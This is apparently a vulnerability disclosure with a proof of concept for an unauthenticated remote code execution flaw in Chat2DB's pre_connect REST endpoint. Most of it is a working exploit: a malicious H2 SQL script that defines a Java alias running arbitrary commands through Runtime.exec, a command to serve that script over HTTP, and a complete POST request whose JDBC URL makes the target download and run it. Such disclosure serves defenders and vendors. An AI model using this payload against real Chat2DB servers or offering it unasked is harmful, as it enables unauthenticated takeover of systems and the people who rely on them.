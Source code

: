 # Chat2DB H2 JDBC Driver Remote Code Execute Vulnerability

**Creator：**zack



## Description

The REST API of Chat2DB (/api/connection/datasource/pre_connect) has a remote code execution vulnerability that occurs when an unauthenticated H2 JDBC connection is used.

## Proof of Concept

1. Download the Chat2DB client and run it [Chat2DB Client](https://github.com/CodePhiliaX/Chat2DB/releases/tag/v0.3.7)
2. Use Python to start an HTTP service for accessing our malicious SQL script file.

```sql
#poc.sql
CREATE ALIAS COMMAND_EXEC AS $$ String commandExec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL COMMAND_EXEC('calc')
```

```
python -m http.server 8888 --bind 0.0.0.0
```

3. Use the following POC to send the request

```
POST /api/connection/datasource/pre_connect HTTP/1.1
Host: 127.0.0.1:10824
Content-Length: 449
Accept: application/json
Content-Type: application/json
User-Agent: aaa
sec-ch-ua-platform: "custom"
Origin: http://127.0.0.1:10824
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:10824/connections
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: dsfsdfd
Connection: keep-alive

{"ssh":{"use":false,"hostName":"","port":"22","userName":"","localPort":"","authenticationType":"password","password":""},"alias":"@localhost","environmentId":1,"host":"localhost","port":"9092","serviceType":"TCP","authenticationType":"1","user":"root","password":"test","database":"test","url":"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'","extendInfo":[],"connectionEnvType":"DAILY","type":"H2"}
```

4. Successful remote code execution

![image-20250613195234510](D:\notes\notes-software\typora\Typora\data\Chat2DB H2 JDBC Driver Remote Code Execute Vulnerability\image-20250613195234510.png)